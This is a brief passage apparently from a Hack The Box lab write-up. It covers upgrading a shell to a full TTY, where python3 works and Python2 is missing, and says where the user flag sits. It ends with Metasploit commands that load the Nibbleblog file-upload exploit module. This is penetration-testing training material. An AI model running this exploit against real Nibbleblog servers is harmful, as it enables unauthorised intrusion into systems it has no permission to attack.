
Try the various techniques for upgrading to a full TTY and pick one that works best for you. Our first attempt fails as Python2 seems to be missing from the system!

Let's try using python3, and done!

### Flag

In `usser.txt`.


---

```
msfconsole
use exploit/multi/http/nibbleblog_file_upload
```

---

# References

- <https://academy.hackthebox.com/>
